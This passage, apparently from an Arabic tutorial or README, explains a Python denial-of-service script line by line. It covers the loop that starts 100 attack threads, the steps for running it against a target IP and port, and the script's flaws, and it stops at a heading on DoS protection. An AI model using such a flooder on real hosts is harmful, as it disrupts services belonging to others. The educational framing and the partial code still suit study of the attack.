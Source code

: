 ### 🔄 إنشاء خيوط الهجوم
```python
for i in range(100): 
    t = threading.Thread(target=attack)
    t.start()
```

**شرح كل سطر:**
- **for i in range(100)**: إنشاء 100 خيط
- **t = threading.Thread(target=attack)**: إنشاء خيط جديد يستدعي دالة attack
- **t.start()**: بدء تشغيل الخيط

## 🚀 كيفية التنفيذ

### 1. تشغيل الهجوم
```bash
python3 dos.py
```

### 2. إدخال معلومات الهدف
```
Target IP: 192.168.1.100
Target Port: 80
```

### 3. إيقاف الهجوم
اضغط `Ctrl+C` لإيقاف الهجوم

## ⚠️ الثغرات في الكود

### 1. عدم وجود تحقق من المدخلات
```python
target = input("Target IP: ")  # لا يتحقق من صحة عنوان IP
port = int(input("Target Port: "))  # قد يسبب خطأ إذا أدخل المستخدم نص
```

### 2. معالجة أخطاء ضعيفة
```python
except:
    pass  # تجاهل جميع الأخطاء بدون تسجيلها
```

### 3. رسائل غير واضحة
```python
print("Sentdos to " + target + " on port " + str(port))  # خطأ إملائي
```

### 4. عدم وجود حد للهجوم
الهجوم يستمر إلى ما لا نهاية بدون إيقاف

## 🛡️ طرق الحماية من DoS
